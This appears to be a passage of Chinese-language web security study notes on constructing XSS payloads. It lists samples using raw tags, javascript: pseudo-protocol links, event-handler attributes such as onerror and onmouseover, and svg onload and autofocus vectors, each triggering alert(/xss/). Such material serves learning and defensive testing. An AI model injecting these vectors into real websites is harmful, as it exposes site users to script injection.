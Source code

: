   ****

  ### 5. XSS构造

  #### (1).利用<>构造标签

  * **没有任何过滤**机制时使用

  #### (2).伪协议

  * 使用**javascript:**等伪协议构造XSS

  * 支持的标签：**src**、**href**、background等

    ```html
    <a href="javascript:alert(/xss/)">touch me!</a>
    <img src="javascript:alert(/xss/)"></img>		//仅在IE6下成功
    ```

  #### (3).事件利用

  * 可以利用html中某些**动作时间**，绑定**恶意脚本**

  * 常见事件类型

    | window事件   | 对window对象触发的事件         |
    | ------------ | ------------------------------ |
    | Form事件     | HTML表单内的动作触发事件       |
    | Keyboard事件 | 键盘按键                       |
    | Mouse事件    | 由鼠标或类似用户动作触发的事件 |
    | Media事件    | 由多媒体触发的事件             |

    ```html
    <img src='./smile.jpg' onmouseover='alert(/xss/)' />
    <input type="text" onkeydown="alert(/xss/)" />
    <input type="text" onkeyup="alert(/xss/)" />
    <input type="button" onclick="alert(/xss/)" />
    <img src='#' onerror='alert(/xss/)' />
    ```

  #### (4).利用CSS触发(已过时)

  #### (5)其他标签及手法

  * 随着前端语言的更新速度，会有**新的标签和事件**出现

    ```html
    <svg onload="alert(/xss/)" >	//svg是h5语言中的标签
    <input onfocus=alert(/xss/) autofocus >	//自动触发
    ```
